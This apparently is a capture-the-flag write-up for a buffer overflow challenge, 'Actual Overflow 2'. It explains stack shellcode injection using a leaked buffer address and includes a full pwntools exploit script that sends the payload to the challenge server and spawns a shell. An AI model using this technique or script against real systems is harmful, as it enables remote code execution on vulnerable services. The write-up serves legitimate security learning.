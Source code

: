 ```yaml
---
title: AIRANGE'24 - Pwn - Actual Overflow 2
date: '2024-04-16'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'pwntools', 'overflow']
draft: false
summary: It was my first proper buffer over challenge that i solved
---
```


## Challenge Description

What can you do if I don't give you a function for the flag?

[Download](https://airange.online/files/94259d51f0eb9b7ab3bf3fb3b26c6df9/actual_overflow_2.tar?token=eyJ1c2VyX2lkIjo0NSwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MzN9.Zh_R0Q.aOTL_0aXqSOi7O7Knx6XpKiSXhQ)

## Solution

In the code it can be seen that there is no flag function but rather a function that just prints the string that we enter.

so for this challenge we have to return to shell code so that we can extract the flag.txt,

This can be done by overflowing the buffer and sending the address of buffer that stores input, but with a slight twist that instead of sending just a value or a byte we will inject the shell code in the start of buffer overflow so the next the address that we send after buffer overflow it will redirect to the same buffer again but this time it will execute the shell code. just run the command “**cat flag.txt**”

***you can find the shell code online (but send it as little endian format) as well but the good practice is to use the pwn tools for this you have to give context of the architecture and just use this line it will create a shell code for you***

```python
# context of the ***architecture*** 
context.arch='x86_64'
# function to create shell code.
some variable = asm(shellcraft.sh())
```

**EXPLOIT:**

```python
from pwn import *
context.arch='x86_64'
io = remote("143.198.227.172", 32777)

io.recvuntil(b"u: ")

leak = int(io.recvline().strip(), 16)

print("Leaked address:", hex(leak))

shellcode = asm(shellcraft.sh())

padding = b"A" * (264 - len(shellcode)) 

payload = shellcode + padding + p64(leak)

io.sendline(payload)

io.interactive()
```
![Screenshot](/static/images/overflow2/1.png)